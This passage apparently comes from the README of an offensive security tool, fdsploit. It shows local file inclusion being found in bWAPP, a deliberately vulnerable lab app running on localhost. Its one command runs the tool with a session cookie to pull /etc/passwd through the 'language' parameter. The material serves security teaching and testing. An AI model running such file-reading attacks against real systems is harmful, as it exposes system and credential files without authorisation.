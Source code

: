 <img src="images/directory_traversal.png" width="70%">

#### 2. LFI vulnerability discovery:

Again, the language parameter seems vulnerable to LFI since every request being colored with green produces a different hash, a different content-length from the initial, and the keyword specified is found in the response:

```python
./fdsploit.py -u 'http://127.0.0.1:8888/test/bWAPP/bWAPP/rlfi.php?language=fsd&action=go' -c 'PHPSESSID=a55475b0abccbf3b32fab4c95a98c3ab; security_level=0' -d 7 -k root -p /etc/passwd
```